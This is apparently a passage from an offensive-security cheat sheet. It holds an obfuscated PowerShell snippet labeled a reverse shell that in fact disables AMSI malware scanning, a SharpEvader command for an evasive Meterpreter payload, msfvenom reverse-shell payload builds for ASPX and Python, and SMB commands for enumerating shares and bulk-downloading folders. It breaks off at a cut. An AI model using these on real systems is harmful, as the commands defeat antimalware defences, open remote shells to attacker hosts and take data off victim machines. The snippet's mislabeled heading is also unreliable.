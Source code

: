 #### Obfuscated PowerShell reverse shell

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

#### SharpEvader

[https://github.com/Xyan1d3/SharpEvader](https://github.com/Xyan1d3/SharpEvader)

```bash
python3 sharpevader.py -p windows/x64/meterpreter/reverse_tcp -lh tun0 -lp 9001
```

#### msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx -o exploit.aspx
```

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "\x00\x25\x26" -f python -v shellcode
```

***

### Services

#### SMB

**List shares**

```bash
smbclient -L //<IP>
```

**Connect to a share**

```bash
smbclient //$IP/$share
```

```bash
smbclient -U $user \\\\$ip\\$share
```

**download a full folder from smb**

```bash
smb: \\> recurse ON
smb: \\> prompt OFF
smb: \\> mget *
```

**copy a file over an smb server**
